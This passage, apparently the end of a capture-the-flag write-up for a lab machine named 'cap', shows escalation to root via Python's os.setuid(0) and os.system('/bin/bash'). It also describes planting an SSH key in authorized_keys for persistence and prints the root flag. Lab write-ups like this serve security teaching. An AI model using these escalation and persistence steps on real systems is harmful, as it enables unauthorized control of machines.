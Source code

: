 Now let's set the UID of the process to `root`:

```sh
>>> os.setuid(0)
```

Finally, we can open a shell:

```sh
>>> os.system("/bin/bash")
```

```
root@cap:~#
```

Yay!

### Stabilizing the shell

Our home folder contains a `.ssh` directory. There's no existing private key, so
I'll create one and add the corresponding public key to `authorized_keys`, and
then I'll connect over SSH as `root`. This way, I'll have a much more stable
shell.

## Getting a lay of the land

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@cap:~# cat "/root/root.txt"
```

```
2c68ffb67376ed8e9fc7798df93b2f40
```

# Afterwords
